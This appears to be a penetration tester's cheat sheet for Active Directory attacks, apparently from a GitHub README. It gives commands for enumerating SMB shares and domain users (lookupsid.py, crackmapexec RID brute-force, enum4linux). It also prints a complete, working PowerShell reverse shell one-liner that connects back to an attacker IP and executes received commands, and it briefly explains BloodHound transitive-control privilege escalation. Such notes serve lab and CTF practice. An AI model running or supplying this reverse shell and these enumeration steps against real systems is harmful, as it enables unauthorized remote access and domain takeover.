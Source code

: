 **when enumerate smb shares and we have read access to ```IPC$``` share, We will be able to list the domain users as ```anonymous``` using different tools:**

1- ```lookupsid.py anonymous@<target ip>```<br>
#OR<br>
```lookupsid.py <username>@<target ip>``` #if we have valid creds <br>

2- ```crackmapexec smb <target ip> -u 'guest' -p '' --rid-brute```

----------------------------------------------------------------------------------------------------------------------

**if we do not know the domain name we could use ```crackmapexec``` to dump some cool information:**
```
crackmapexec smb <target ip>
                                                                  
SMB         10.10.250.17    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
```
#OR 
Use ```enum4linux```:
```
enum4linux <target ip>
```
----------------------------------------------------------------------------------------------------------------------

**Powershell reverse shell**

```
$client = New-Object System.Net.Sockets.TCPClient('<OUR ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

----------------------------------------------------------------------------------------------------------------------

transitive object control in bloodhound
---

In BloodHound, "transitive object control" refers to an attack path where an attacker gains indirect control over a sensitive object (such as a user, group, or computer) by exploiting multiple relationships or permissions in Active Directory. This often results from a chain of misconfigurations where control over one object enables control over another, eventually leading to higher privileges, such as Domain Admin.<br>
Transitive control **occurs** when an attacker doesn’t have direct control over a target object but can use their control over another object to eventually gain access to the target.
For example:

    Attacker controls UserA.
    UserA has control over GroupB.
    GroupB contains a privileged user, like a Domain Admin.
    The attacker can then leverage control over UserA to modify GroupB and escalate privileges


